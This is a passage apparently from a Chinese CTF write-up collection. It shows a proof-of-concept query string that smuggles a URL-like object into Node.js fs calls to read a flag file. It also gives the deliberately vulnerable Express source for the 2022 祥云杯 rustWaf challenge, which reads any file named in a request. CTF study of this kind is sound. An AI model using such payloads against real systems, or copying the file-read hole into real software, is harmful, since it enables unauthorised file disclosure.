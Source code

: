 POC:

```http
?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=/app/%66%6c%61%67.txt
```

### 2022祥云杯-rustWaf

app.js

```javascript

const express = require('express');
const app = express();
const bodyParser = require("body-parser")
const fs = require("fs")
app.use(bodyParser.text({type: '*/*'}));
const {  execFileSync } = require('child_process');

app.post('/readfile', function (req, res) {
    console.log(req.body)
    let body = req.body.toString();

    let file_to_read = "app.js";
    const file = execFileSync('./rust-waf', [body], {
        encoding: 'utf-8'
    }).trim();
    console.log(file)
    try {
        file_to_read = JSON.parse(file)
    } catch (e){
        file_to_read = file
    }
    let data = fs.readFileSync(file_to_read);
    res.send(data.toString());
});

app.get('/', function (req, res) {
    res.send('see `/src`');
});

app.get('/src', function (req, res) {
    var data = fs.readFileSync('app.js');
    res.send(data.toString());
});

app.listen(3000, function () {
    console.log('start listening on port 3000');
    console.log("http://127.0.0.1:3000")
});

```
